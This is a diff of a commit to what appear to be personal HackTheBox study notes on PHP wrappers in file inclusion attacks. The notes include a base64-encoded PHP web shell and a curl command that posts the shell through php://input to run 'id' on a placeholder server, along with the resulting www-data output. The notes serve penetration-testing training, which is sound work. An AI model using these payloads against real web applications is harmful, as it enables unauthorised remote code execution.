

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/PHP_Wrappers.md, in a window 1280 px wide. Shown: the top 768 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update PHP_Wrappers.md

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/PHP_Wrappers.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/PHP_Wrappers.md
@@ -1,6 +1,8 @@
 ---
 title: PHP Wrappers
 ---
+
+# Data
 
 ## Remote Code Execution
 
@@ -11,3 +13,12 @@ Jerad Rodgers@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64
 
 PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
 ```
+
+# Input
+
+```
+Jerad Rodgers@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
+            uid=33(www-data) gid=33(www-data) groups=33(www-data)
+```
+
+> **Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)
````
